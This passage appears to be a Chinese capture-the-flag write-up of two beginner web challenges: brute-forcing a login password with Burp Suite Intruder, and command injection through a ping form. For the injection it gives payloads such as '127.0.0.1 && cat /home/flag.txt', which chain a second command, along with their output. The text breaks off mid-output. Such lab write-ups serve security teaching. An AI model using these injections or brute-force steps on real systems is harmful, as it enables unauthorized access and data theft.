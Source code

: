 ## burpsuite的初始配置
- 首先我们要开启Internet代理，使得Burpsuite可以抓到包
- 我们设置`127.0.0.1 Port:8080`这是本地机子的IP
- 在Burpsuite中，我们在`Proxy-Options`中设置IP，这里是默认的

## 使用Intruder进行爆破
- OK，现在我们尝试输入admin登录
- Burpsuite会抓到一个数据包，这个时候浏览器会卡住
- 抓到这个包后，我们将它`Action-Send to Intruder`，然后我们将会根据这个包，使用Intruder对这个站点进行遍历攻击
- 打开`Intruder`
 1. 检查Target(记住不要点下面那个Use Https，否则会很慢)；
 2. 检查Positions，设置爆破点在password
 3. 设置Payloads，在payload options处载入字典
 4. 开始攻击
- 然后我们就会得到攻击后回应数据的长度
- 有很多长度434的，那么这些都是错的，我们找一个不一样的就好
- 找到一个长度437的，对应密码123456，点进去，查看Response，得到flag

# command_execution
- 这题是Linux系统指令的考察
- 首先我们先试试`127.0.0.1`的PING
```
ping -c 3 127.0.0.1
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.062 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.054 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.032 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.032/0.049/0.062/0.013 ms
```
- 其实就可以得知，这里是利用了Linux的PING
- 那么我们就可以找服务器里面的文件了
- 使用`find`和正则表达式
```
127.0.0.1 && find /home -name flag*
```
```
ping -c 3 127.0.0.1 && find /home -name flag*
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.053 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.047 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.040 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.040/0.046/0.053/0.009 ms
/home/flag.txt
```
- 刚好找到home目录下有个`flag.txt`
- 使用`cat`访问它
```
127.0.0.1 && cat /home/flag.txt
```
```
ping -c 3 127.0.0.1 && cat /home/flag.txt
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.039 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.060 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.048 ms

```